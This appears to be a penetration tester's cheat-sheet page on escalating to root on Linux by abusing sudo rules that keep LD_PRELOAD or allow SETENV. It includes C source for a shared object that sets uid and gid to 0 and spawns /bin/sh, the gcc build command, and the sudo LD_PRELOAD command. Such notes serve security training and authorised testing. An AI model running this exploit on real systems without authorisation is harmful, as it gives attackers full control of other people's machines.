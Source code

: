 # LD\_Preload / SETENV

There are a couple of different ways I have found this to work. 1. In the below image. If you see the marked are when running sudo -l then you should be good to go. 2. If you run sudo -l and see SETENV under sudo permissions then I would also try this. Note: I had a file path after SETENV when this worked. I have not tried it with a bin, so I can't verify if it works the same.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

1. On attacker machine create a file called shell.c with the following code.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}
```

2\. Build the shell.c code into shell.co

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

3\. Transfer the shell.so file to the target machine.

4\. Run the code below to get a root shell. Replace the /usr/bin/ping with the path specified in the output from sudo -l.

```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```
